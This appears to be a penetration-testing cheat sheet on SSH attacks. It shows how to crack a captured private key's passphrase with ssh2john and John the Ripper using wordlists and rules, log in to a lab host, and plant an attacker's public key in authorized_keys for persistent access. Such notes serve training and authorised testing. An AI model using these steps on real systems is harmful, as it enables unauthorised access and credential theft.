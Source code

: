 # 22 - SSH

* id\_rsa - if password is require use ssh2john to crack it

```sh
chmod 600 id_rsa
```

```
ssh2john id_rsa > ssh.hash
```

```
john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash
```



{% code overflow="wrap" %}
```sh
sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'
```
{% endcode %}

```sh
john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```

```
ssh -i id_rsa daniela@192.168.50.244
```

### Adding SSH Public key

* This can be used to get ssh session, on target machine which is based on linux

{% code overflow="wrap" %}
```shell
ssh-keygen -t rsa -b 4096 #give any password

#This created both id_rsa and id_rsa.pub in ~/.ssh directory
#Copy the content in "id_rsa.pub" and create ".ssh" directory in /home of target machine.
chmod 700 ~/.ssh
nano ~/.ssh/authorized_keys #enter the copied content here
chmod 600 ~/.ssh/authorized_keys 

#On Attacker machine
ssh username@target_ip #enter password if you gave any
```
{% endcode %}
